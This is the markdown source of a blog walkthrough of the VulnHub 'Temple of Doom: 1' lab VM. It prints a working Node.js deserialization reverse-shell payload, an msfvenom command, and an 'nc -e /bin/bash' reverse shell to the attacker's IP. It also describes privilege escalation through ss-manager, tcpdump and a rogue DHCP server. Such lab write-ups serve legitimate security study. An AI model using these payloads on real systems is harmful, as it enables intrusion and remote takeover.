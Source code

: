 ```yaml
---
layout: post
date: 2018-08-26 18:15:47 +0000
last_modified_at: 2018-10-14 08:43:16 +0000
title: "Temple of Doom: 1 Walkthrough"
subtitle: "I'm No Indiana Jones"
category: Walkthrough
tags: [VulnHub, "Temple of Doom"]
comments: true
image:
  feature: temple-of-doom-1-walkthrough.jpg
  credit: PublicDomainPictures / Pixabay
  creditlink: https://pixabay.com/en/skull-bone-head-halloween-skeleton-18235/
---
```


This post documents the complete walkthrough of Temple of Doom: 1, a boot2root [VM][1] created by [@0katz][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

You know it's a high quality VM when it's from [@Pink_P4nther](https://twitter.com/@pink_p4nther)'s homie, [@katz](https://twitter.com/@0katz).

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    syn-ack ttl 64 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

`nmap` finds `22/tcp` and `666/tcp` open.

## Node.js Deserialization Bug

Let's pay `666/tcp` a visit and see what we can find there.

![50ad81b1.png](/assets/images/posts/temple-of-doom-1-walkthrough/50ad81b1.png)

Satan's temple is still under construction? Thank God :pray: I'm not going to hell any time soon.

Look what happens when I refresh the page.

![9f6cc22b.png](/assets/images/posts/temple-of-doom-1-walkthrough/9f6cc22b.png)

Look at the cookies storage.

![332df422.png](/assets/images/posts/temple-of-doom-1-walkthrough/332df422.png)

This is the `node-serialize` bug documented in [CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941).

In any case, there's an easy way to exploit this vulnerability following the instructions [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

There's a slight difference though—I'm using the reverse shell generated by `msfvenom` instead.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.30.128 LPORT=4444
```

Incorporate the output from `msfvenom` into `rce.js`. Remember to remove the enclosing round brackets.

<div class="filename"><span>rce.js</span></div>

```js
var rev = {
rce:function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(4444, "192.168.30.128", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); },
};

var serialize = require('node-serialize');
console.log(serialize.serialize(rev));
```

Run `node rce.js` to get the serialized string output.

![87473663.png](/assets/images/posts/temple-of-doom-1-walkthrough/87473663.png)

Next, add the [IIFE](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) bracket `()` at the end of the serialized string output from the previous step before passing it to `base64` for encoding.

![398e3f8d.png](/assets/images/posts/temple-of-doom-1-walkthrough/398e3f8d.png)

Send the entire `base64` string as the `profile` cookie value to `http://192.168.30.129:666`. But before you do that, you want to set up your `nc` listener.

![0cfb9b07.png](/assets/images/posts/temple-of-doom-1-walkthrough/0cfb9b07.png)

As expected, the `nc` listener caught the reverse shell.

![fe9a4b46.png](/assets/images/posts/temple-of-doom-1-walkthrough/fe9a4b46.png)

You can see that `nodeadmin` is a regular user with its home directory at `/home/nodeadmin`; we can copy the SSH public key we control to `/home/nodeadmin/.ssh/authorized_keys` and log in through SSH. We get a more superior shell this way and `Ctrl-C` doesn't kill the shell. :smirk:

![9ca6cba5.png](/assets/images/posts/temple-of-doom-1-walkthrough/9ca6cba5.png)

Here's how to do that. First, generate the SSH keypair for `nodeadmin`.

![75c59205.png](/assets/images/posts/temple-of-doom-1-walkthrough/75c59205.png)

Next, create `/home/nodeadmin/.ssh` and echo the SSH public key to `authorized_keys`.

![8932e285.png](/assets/images/posts/temple-of-doom-1-walkthrough/8932e285.png)

Now, SSH into `nodeadmin`'s account.

## Command Execution in `shadowsocks-libev`

During enumeration of `nodeadmin`'s account, I notice `/usr/local/bin/ss-manager` is running as `fireman`.

![a2034971.png](/assets/images/posts/temple-of-doom-1-walkthrough/a2034971.png)

A quick search for "ss-manager" in Google led me to EDB-ID [43006](https://www.exploit-db.com/exploits/43006/). Listing the listening ports further confirmed the command execution "feature".

![5a264f18.png](/assets/images/posts/temple-of-doom-1-walkthrough/5a264f18.png)

A more liberal `nc` is also available for use in the VM.

![96d18f6d.png](/assets/images/posts/temple-of-doom-1-walkthrough/96d18f6d.png)

Armed with this knowledge, we can execute `nc` to give us a reverse shell as `fireman`.

![1119288b.png](/assets/images/posts/temple-of-doom-1-walkthrough/1119288b.png)

On our `nc` listener, a reverse shell returns as `fireman`.

![118e46df.png](/assets/images/posts/temple-of-doom-1-walkthrough/118e46df.png)

We can repeat the same SSH trick for `fireman`.

## Dangerous `tcpdump`

During enumeration of `fireman`'s account, I found the following.

![5c72e0cc.png](/assets/images/posts/temple-of-doom-1-walkthrough/5c72e0cc.png)

`tcpdump` in particular, can execute commands and run in another user's privilege with the `-z` and `-Z` options respectively.

Let's save `nc 192.168.30.128 1234 -e /bin/bash` into `/tmp/rev.sh` and make it executable.

![2202213b.png](/assets/images/posts/temple-of-doom-1-walkthrough/2202213b.png)

And execute `tcpdump` like so.

![c1ef1436.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1ef1436.png)

On the `nc` listener, a `root` shell returns.

![702d370f.png](/assets/images/posts/temple-of-doom-1-walkthrough/702d370f.png)

After repeating the SSH trick, getting the flag is trivial.

![9dfe8eb7.png](/assets/images/posts/temple-of-doom-1-walkthrough/9dfe8eb7.png)

:dancer:

## Afterthought

I wonder what's the second method for getting `root`? Could it be the exploitation of `abrt`?

I think I got it figured out. [CVE-2018-1111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1111) anyone?

The signs were there all this time.

![c1a0b34c.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1a0b34c.png)

There's a reason why `fireman` can `sudo` to execute `nmcli` and `iptables`. Even the source of the vulnerability is present.

![53cf80ea.png](/assets/images/posts/temple-of-doom-1-walkthrough/53cf80ea.png)

The proof-of-concept (PoC) code is so small it can fit inside a [tweet](https://twitter.com/Barknkilic/status/996470756283486209), with the help of `dnsmasq` of course.

Let's try it out.

In one terminal, I set up my attacking machine (192.168.30.128) as the rogue DHCP server with `dnsmasq`. In another terminal, I set up the `nc` listener to catch the reverse shell.

![6b69b4b4.png](/assets/images/posts/temple-of-doom-1-walkthrough/6b69b4b4.png)

Now, let's renew the VM's IP address with `nmcli`. My rogue DHCP server will respond to the VM's DHCP request with the injected command (`nc` to send `/bin/bash` over to me, i.e. a reverse shell) in the DHCP offer.

![42188e5c.png](/assets/images/posts/temple-of-doom-1-walkthrough/42188e5c.png)

A `root` shell returns.

![2de2fbdf.png](/assets/images/posts/temple-of-doom-1-walkthrough/2de2fbdf.png)

Below are the DHCP packets and the rogue DHCP offer captured in WireShark.

![7daab6b2.png](/assets/images/posts/temple-of-doom-1-walkthrough/7daab6b2.png)

![cb889f9c.png](/assets/images/posts/temple-of-doom-1-walkthrough/cb889f9c.png)


[1]: https://www.vulnhub.com/entry/temple-of-doom-1,243/
[2]: https://twitter.com/@0katz
[3]: https://www.vulnhub.com/
